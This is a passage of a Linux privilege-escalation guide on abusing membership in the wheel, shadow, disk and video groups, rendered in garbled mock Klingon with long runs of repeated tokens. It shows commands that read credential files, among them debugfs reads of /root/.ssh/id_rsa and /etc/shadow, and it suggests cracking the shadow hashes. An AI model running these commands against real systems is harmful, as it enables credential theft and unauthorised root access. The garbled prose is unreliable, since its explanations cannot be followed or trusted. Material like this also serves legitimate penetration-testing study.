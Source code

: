 **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **'e'** **
```
%wheel	ALL=(ALL:ALL) ALL
```
**qaStaHvIS wheel ghItlhlaHbe'chugh sudo**.

**qaStaHvIS root boqHa'**:
```
sudo su
```
## qo'noS ghoS

**qo'noS ghoS** ghompu' **qatlh** **/etc/shadow** file:
```
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```
So, **ghItlh** vItlhutlh **hashes** **ghItlh** **crack**.

## Disk Group

**root access** **equivalent** **privilege** **ghItlh** **almost** **tlhIngan** **vItlhutlh** **ghItlh** **machine** **data** **ghItlh** **access** **'ej**.

Files:`/dev/sd[a-z][1-9]`
```bash
df -h #Find where "/" is mounted
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
**ghItlhvam** debugfs **DIvI'** **tlhIngan Hol** **ghItlhvam** **'oH**. **'ej** `/tmp/asd1.txt` **ghItlhvam** `/tmp/asd2.txt` **ghItlhvam** **'e'** **tlhIngan Hol** **ghItlhvam** **DIvI'** **tlhIngan Hol** **ghItlhvam** **'oH**.
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
**However, if you try to write files owned by root** (like `/etc/shadow` or `/etc/passwd`) you will have a "**Permission denied**" error.

## Video Group

Using the command `w` you can find **who is logged on the system** and it will show an output like the following one:
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
**tty1** **yossi** **logh** **mInDu'** **mach** **terminal** **user**.
